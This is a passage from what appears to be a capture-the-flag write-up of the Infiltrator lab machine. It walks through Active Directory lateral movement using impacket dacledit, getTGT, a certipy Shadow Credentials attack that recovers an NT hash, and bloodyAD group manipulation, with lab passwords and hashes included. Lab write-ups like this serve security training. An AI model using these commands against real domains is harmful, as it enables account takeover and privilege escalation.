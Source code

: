 ![image.png](image%207.png)

### DACL Attack: GenericAll

We use `dacledit.py` to grant the `d.anderson` user the `GenericAll` ACL over the Marketing Digital OU, which inherits the rights down to the `e.rodriguez` user:

```bash
impacket-dacledit INFILTRATOR.HTB/d.anderson:'WAT?watismypass!' -k \
-principal 'd.anderson' -target-dn "OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB" \
-action 'write' -rights 'FullControl' -inheritance
```

![image.png](image%208.png)

We then use `getTGT.py` to obtain a TGT for the `d.anderson` user:

```bash
impacket-getTGT INFILTRATOR.HTB/d.anderson:'WAT?watismypass!'
export KRB5CCNAME=$(pwd)/d.anderson.ccache
```

### Shadow Credentials Attack

We use `certipy` to perform a **Shadow Credentials** attack on the `e.rodriguez` user and obtain its NT hash:

```bash
certipy shadow auto -k -no-pass -account 'e.rodriguez' \
-target DC01.INFILTRATOR.HTB -target-ip 10.10.11.31 -ns 10.10.11.31
```

![image.png](image%209.png)

```
e.rodriguez:b02e97f2fdb5c3d36f77375383449e56
```

## LM: e.rodriguez → m.harris

After reviewing the BloodHound data, we see that the `e.rodriguez` user can add itself to the `Chiefs Marketing` domain group, which can change the password of the `m.harris` user:

![image.png](image%2010.png)

### DACL Attack: AddSelf

We use `bloodyAD` to add the `e.rodriguez` user to the `Chiefs Marketing` domain group:

```bash
bloodyAD --host DC01.INFILTRATOR.HTB -d INFILTRATOR.HTB --dc-ip 10.10.11.31 \
-u 'e.rodriguez' -p ':b02e97f2fdb5c3d36f77375383449e56' \
add groupMember "Chiefs Marketing" "e.rodriguez"
```

![image.png](image%2011.png)
